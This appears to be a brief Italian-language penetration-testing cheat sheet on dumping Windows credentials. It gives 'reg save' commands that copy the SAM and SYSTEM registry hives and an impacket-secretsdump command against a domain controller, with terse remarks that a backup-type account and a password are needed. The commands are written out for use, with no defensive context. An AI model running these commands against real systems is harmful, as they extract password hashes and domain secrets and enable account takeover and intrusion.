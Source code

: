### **REGISTRY**
```powershell
reg save hklm/system
reg save hklm/sam
```
### **SECRETSDUMP**
Penso sia solo se tu abbia un account speciale tipo "backup"
```
impacket-secretsdump -just-dc <USER>@<IP>
```
poi serve la password